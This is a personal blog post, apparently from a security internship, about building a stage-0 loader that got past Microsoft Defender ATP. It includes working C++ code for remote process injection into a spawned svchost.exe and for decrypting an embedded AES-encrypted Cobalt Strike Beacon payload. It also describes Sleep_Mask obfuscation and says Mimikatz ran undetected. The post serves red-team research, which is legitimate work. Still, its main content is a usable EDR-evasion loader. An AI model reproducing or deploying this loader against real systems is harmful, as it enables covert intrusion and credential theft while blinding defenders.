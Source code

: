 ```yaml
---
layout: article
title:  Week 12
tags: internship kernel-drivers
date:   2021-12-25 08:00:00 +0100
show_edit_on_github: false
show_subscribe: false
license: false
key: 2021-12-25-week-12
categories: active
---
```


... and across the finish line.
<!--more-->

### 1. 

This blogpost concludes my internship with NVISO and my journey developing a kernel driver to tamper with EDR/AV. In this final week I tried my best to deploy the driver against Microsoft Defender ATP and execute a Cobalt Strike Beacon undetected. I had hoped to have earlier access and thus more time to conduct testing against a proper EDR.

As expected, Defender ATP is a big step up from the regular consumer grade Anti-Virus products I've tested against thus far and the loader I've been using during this series doesn't cut it anymore. Right around the time I started my tests I came across a [tweet from @an0n_r0](https://twitter.com/an0n_r0/status/1475137947729113092) discussing a semi-successful Defender bypass, so I used this as base for my new stage 0 loader.

The loader is based on the simple remote code injection pattern using the `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx` and `CreateRemoteThread` WIN32 APIs.

```c++
void* exec = fpVirtualAllocEx(hProcess, NULL, blenu, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

fpWriteProcessMemory(hProcess, exec, bufarr, blenu, NULL);

DWORD oldProtect;
fpVirtualProtectEx(hProcess, exec, blenu, PAGE_EXECUTE_READ, &oldProtect);

fpCreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)exec, exec, 0, NULL);
```

I also incorporated dynamic function imports using hashed function names and CIG to protect the spawned suspended process against injection of non-Microsoft-signed binaries.

```c++
HANDLE SpawnProc() {
    STARTUPINFOEXA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    SIZE_T attributeSize;

    InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);

    DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;
    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, &policy, sizeof(DWORD64), NULL, NULL);

    si.StartupInfo.cb = sizeof(si);
    si.StartupInfo.dwFlags = EXTENDED_STARTUPINFO_PRESENT;

    if (!CreateProcessA(NULL, (LPSTR)"C:\\Windows\\System32\\svchost.exe", NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi)) {
        std::cout << "Could not spawn process" << std::endl;
        DeleteProcThreadAttributeList(si.lpAttributeList);
        return INVALID_HANDLE_VALUE;
    }

    DeleteProcThreadAttributeList(si.lpAttributeList);
    return pi.hProcess;
}
```

The Beacon payload is stored as a AES256 encrypted PE resource and decrypted in memory before being injected into the remote process.

```c++
HRSRC rc = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), L"PAYLOAD_BIN");
DWORD rcSize = fpSizeofResource(NULL, rc);
HGLOBAL rcData = fpLoadResource(NULL, rc);

char* key = (char*)"16-byte-key-here";
const uint8_t iv[] = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };

int blenu = rcSize;
int klen = strlen(key);

int klenu = klen;
if (klen % 16)
    klenu += 16 - (klen % 16);

uint8_t* keyarr = new uint8_t[klenu];
ZeroMemory(keyarr, klenu);
memcpy(keyarr, key, klen);

uint8_t* bufarr = new uint8_t[blenu];
ZeroMemory(bufarr, blenu);
memcpy(bufarr, rcData, blenu);

pkcs7_padding_pad_buffer(keyarr, klen, klenu, 16);

AES_ctx ctx;
AES_init_ctx_iv(&ctx, keyarr, iv);
AES_CBC_decrypt_buffer(&ctx, bufarr, blenu);
```

Last but not least I incorporated the **Sleep_Mask** directive in my Cobalt Strike Malleable C2 profile, this tells Cobalt Strike to obfuscate Beacon in memory before it goes to sleep by means of an XOR encryption routine.

The loader works so well I was able to execute Beacon and run Mimikatz undetected without the use of my kernel driver. On that bombshell, it's time to end this internship and I think I can conclude that while having a kernel driver to tamper with EDR/AV is certainly useful, a majority of the detection mechanisms are still present in user land or are driven by signatures and rules for static detection.

![](/assets/images/defender-atp-bypass.png)

![](/assets/images/defender-atp-mimikatz.png)